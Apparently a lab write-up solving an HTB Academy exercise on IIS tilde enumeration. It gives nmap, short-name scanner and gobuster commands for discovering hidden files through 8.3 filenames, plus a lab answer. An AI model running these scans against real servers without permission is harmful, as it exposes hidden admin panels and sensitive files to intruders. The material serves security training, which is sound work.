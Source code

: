 # 🔍 IIS Tilde Enumeration

> **🎯 Objective:** Exploit IIS short filename vulnerability to discover hidden files and directories using 8.3 format enumeration.

## Overview

**IIS Tilde Enumeration** exploits a vulnerability in Microsoft IIS servers where **8.3 short filenames** can be discovered using the **tilde (~) character**. This technique reveals hidden files and directories that may not be accessible through normal browsing.

---

## HTB Academy Lab Solution

### Lab: Full Filename Discovery
**Question:** "What is the full .aspx filename that Gobuster identified?"

#### Step 1: Service Discovery
```bash
# Nmap scan to identify IIS
nmap -p- -sV -sC --open TARGET

# Expected result: Microsoft IIS httpd 7.5 on port 80
```

#### Step 2: Tilde Enumeration
```bash
# Download IIS-ShortName-Scanner
# https://github.com/lijiejie/IIS_shortname_Scanner

# Run automated tilde enumeration
java -jar iis_shortname_scanner.jar 0 5 http://TARGET/

# Expected findings:
# - ASPNET~1 (directory)
# - UPLOAD~1 (directory)  
# - TRANSF~1.ASP (file)
```

#### Step 3: Wordlist Generation
```bash
# Create custom wordlist for "transf" prefix
egrep -r ^transf /usr/share/wordlists/* | sed 's/^[^:]*://' > /tmp/list.txt
```

#### Step 4: Full Filename Discovery
```bash
# Use Gobuster with custom wordlist
gobuster dir -u http://TARGET/ -w /tmp/list.txt -x .aspx,.asp

# Expected result: Full .aspx filename discovered
```

**Expected Answer:** Full filename starting with "transf" with .aspx extension *(extract from Gobuster output)*

---

## Technical Details

### 8.3 Short Filename Format
```bash
# Windows generates short names for files/directories
# Format: 8 characters + . + 3 characters
# Examples:
# - SecretDocuments → SECRET~1
# - transfer.aspx → TRANSF~1.ASP
```

### Enumeration Process
```bash
# Manual character-by-character discovery
http://example.com/~a
http://example.com/~b
http://example.com/~s    # 200 OK = valid
http://example.com/~se   # 200 OK = valid  
http://example.com/~sec  # 200 OK = valid
```

### Vulnerable IIS Versions
- **IIS 7.5** and earlier versions
- **Windows Server 2008** and older
- Servers with **8.3 filename generation** enabled

---

## Attack Methodology

### 1. Automated Discovery
```bash
# IIS-ShortName-Scanner (Java tool)
java -jar iis_shortname_scanner.jar 0 5 http://target/

# Python alternative
python iis_shortname_scan.py http://target/
```

### 2. Custom Wordlist Creation
```bash
# Generate targeted wordlists based on discovered prefixes
grep -r ^prefix /usr/share/wordlists/* > custom_list.txt
```

### 3. Full Name Brute Force
```bash
# Gobuster with discovered short names
gobuster dir -u http://target/ -w wordlist.txt -x .asp,.aspx,.txt,.pdf

# Dirb alternative
dirb http://target/ wordlist.txt -X .asp,.aspx
```

---

## Impact & Findings

**Common Discoveries:**
- 📁 **Hidden directories** (admin panels, backup folders)
- 📄 **Sensitive files** (config files, source code)
- 🔧 **Development resources** (test pages, debug info)
- 📝 **Documentation** (internal docs, manuals)

**Attack Chain:**
1. **Short name discovery** → Identify hidden resources
2. **Full name enumeration** → Access complete filenames
3. **Content analysis** → Extract sensitive information
4. **Further exploitation** → Use discovered resources for deeper access

**💡 Pro Tip:** IIS Tilde Enumeration is particularly effective against legacy Windows servers and can reveal administrative interfaces, backup files, and development resources not visible through standard directory enumeration. 